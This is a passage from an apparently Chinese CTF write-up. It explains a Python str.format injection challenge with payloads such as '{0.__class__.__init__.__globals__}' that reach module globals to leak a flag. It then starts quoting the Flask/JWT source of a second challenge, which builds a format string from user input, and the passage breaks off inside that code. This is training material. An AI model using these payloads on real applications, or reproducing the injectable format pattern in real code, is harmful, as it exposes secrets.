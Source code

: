 根据以下 Python 代码

```python
exp = '{0.__class__} {1.__class__}'
message = "{0} {1}" + exp
str1 = 'string'
str2 = 123
print(message)
print(message.format(str1, str2))
# {0} {1}{0.__class__} {1.__class__}
# string 123<class 'str'> <class 'int'>
```

再通过题目中给的 `message.format(flAg)` ，因此该题考的就是 format 格式化字符串。通过构造 Payload 如下

```
exp={0.__class__}
```

得到回显 `Your flag is <class 'flag.FLAG'>` ，说明 FLAG 是个类，再通过 `FLAG(f1ag)` 可以推断出存在构造函数，因此通过构造 Payload 如下

```
exp={0.__class__.__init__.__globals__}
```

就可以读取到 flag 力！

### 地狱通讯-改

拿到题目后先对代码进行格式化（

```python
from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {"name": name, }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
```